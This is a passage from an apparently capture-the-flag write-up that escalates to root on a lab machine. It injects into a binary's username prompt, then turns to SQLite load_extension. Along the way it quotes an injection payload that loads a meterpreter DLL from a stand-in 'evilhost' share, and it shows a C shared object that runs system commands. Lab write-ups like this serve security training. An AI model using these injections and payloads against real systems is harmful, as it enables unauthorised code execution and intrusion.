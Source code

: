     
    
    Select option: 5
    Enter username to activate account: "&edit(username);-- -
    Activating account for user '"&edit(username)---'...
    
    bash: groups: No such file or directory
    bash: lesspipe: No such file or directory
    bash: dircolors: No such file or directory
    root@drive:~#
    

This shell has no PATH, so I can either set it, or run everything with full
path:

    
    
    root@drive:/root# /bin/ls
    root.txt
    root@drive:/root# /bin/cat root.txt
    641e7a5b************************
    

### Via SQLi / load_extension

#### Strategy

The `activate_user_account` function asks for input which is used to build a
command string. If I can bypass the filter function, then I can inject into
that SQLite call. The [PayloadsAllTheThings page on
SQLite](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#remote-
command-execution-using-sqlite-command---load_extension) shows this POC for
getting RCE via SQLite:

    
    
    UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
    

It’s loading a DLL from a file share to run on a Windows host. Still, this is
enough to get me looking at the `load_extension`
[function](https://www.sqlite.org/c3ref/load_extension.html), which seems to
load a shared object file and call `sqlite3_extension_init`.

#### POC load_extension

First I want to get a payload that will run. I’ll create a very simple POC
program in C:

    
    
    #include <stdlib.h>
    
    void sqlite3_extension_init() {
        system("id");
    }
    

I’ll compile that into a shared object:
